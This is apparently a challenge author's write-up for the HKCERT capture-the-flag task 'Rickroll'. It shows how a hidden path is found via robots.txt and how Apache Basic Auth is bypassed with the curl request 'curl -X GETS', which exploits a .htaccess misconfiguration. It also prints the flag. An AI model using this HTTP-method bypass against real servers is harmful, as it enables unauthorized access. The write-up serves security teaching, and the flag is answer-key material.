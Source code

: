 # Rickroll

## Prologue 

Hint is useless if you are stuck in the middle. I'm sorry that if you pay for it with 10 points.

## Walk-through

### robots.txt

The website <http://tertiary.pwnable.hk:50007/> will redirect you to rickroll as I'm too lazy to write a real webpage.
`robots.txt` file under root should be found
![](./img/001.PNG)

Which will guide you to visit to <http://tertiary.pwnable.hk:50007/b5HCLDptFQ6ZIZzw/flag.php>

## flag.php

To prevent others brute-forcing the directory, I have use a random string as folder name.
Once visit, the browser will prompt you to login.
![](./img/002.PNG)

However, the description said that no password has been set up. So we have to think of ways to bypass login prompt.
Here I use a trick of both `.htaccess` and `.htpasswd`. Once user use HTTP Header not restricted by `.htacces`, they can visit the page. Thanks for the help of php for pharsing all invalid header as valid one.

```console
byronwai@kali:~$ curl -X GETS http://tertiary.pwnable.hk:50007/b5HCLDptFQ6ZIZzw/flag.php
Congraulations! You get the flag.<br>hkcert{misc0nfiguration_0f_htacc3ss_is_fata1}
<script>
setTimeout(function () {
   window.location.href= 'https://www.youtube.com/watch?v=gkTb9GP9lVI&ab_channel=JwHDify';
}, 5000);
</script>
```

## Flag
`hkcert{misc0nfiguration_0f_htacc3ss_is_fata1}`

Yes, I got a typo in flag format. Sorry man.

## Epilogue
Solve: 2/84 (Secondary)
Solve: 3/81 (Tertiary)

Someone said that this challenge is a bit gessy for the HTTP header. However, the Apache prompt is giving hints that `AuthType Basic` is used. There are bunches of tutorial on web giving `.htaccess` config with weak security.

## Reference

<https://www.opencli.com/apache/apache-user-login>
<https://cd34.com/blog/web-security/hackers-bypass-htaccess-security-by-using-gets-rather-than-get/>
